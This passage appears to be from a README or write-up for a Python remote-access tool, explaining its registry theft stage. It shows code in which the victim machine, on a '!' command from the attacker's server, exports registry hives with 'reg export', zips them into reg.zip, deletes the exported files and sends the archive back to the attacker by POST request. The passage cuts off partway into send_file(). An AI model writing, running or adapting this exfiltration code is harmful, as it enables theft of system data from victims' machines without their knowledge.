 If the victim's machine receives `!` from the server it will run the registry file export function, `pull_registry()`.
From there it uses the Windows batch command `reg export` to export the registry keys.
Each of the six hives will have be exported in separate commands.
For each `reg export` call a output file with the name of the hive is produced.
Immediately following the creation of the registry file it is sent to a zip file called **reg.zip**.
After the file is added to the zip archive, it is removed from the victims machine.

```python
def pull_registry():
    """
    Using windows reg export batch command exports all registry
    keys (other than ones requiring admin access like SAM). Following
    the exporting of the registry to files, those files will be zipped,
    removed, and then sent back to the server.
    """
    hives = ['HKEY_CLASSES_ROOT', 'HKEY_CURRENT_USER',
            'HKEY_LOCAL_MACHINE', 'HKEY_USERS', 'HKEY_CURRENT_CONFIG']

    zipfile = 'reg.zip'
    with ZipFile(zipfile, 'w') as zip:
        for key in hives:
            fname = f"bkReg_{key}.reg"
            filenamepath = f"{fname}"
            regkk = f"reg export {key} {filenamepath}"
            os.system(regkk)
            zip.write(filenamepath)
            os.remove(filenamepath)
```

### 7. Registry file exfiltration

After each hive is exported and added to the **reg.zip** archive, the zip file is sent back to the attacker's server with `send_file(command)`.

```python
# path to zip file containing reg keys, start with `^ `
send_file(f'^ ./{zipfile}')
```

`send_file(command)` takes in a string that starts with a `^`.
The `^` character is used to determine which path the initial logic should take.
Note, this is the same reason for using `!` to tell the victims machine to run the registry export.
After the `^`, a file path should be provided.
This file path is the file that is being requested to be sent back to the attacker's server.
In the case for the registry export case the `command` variable would be equal to `^ ./reg.zip`.

The victim machine will use the requests library in the same way that it made its initial `GET` request except this time it will make a `POST` request and also state
that it is sending a file not just data. If the file path does not exist or could not be accessed the victim will send back an error message to notify the attacker something has gone wrong.

```python
def send_file(command):
    """
    Sends requested file back to server

    args:
        command (str): string containing path to file
        to send to server

        uses format `^ file_path`

    """
    path = command[2:]
    print(f"Pulling file: {path}")
```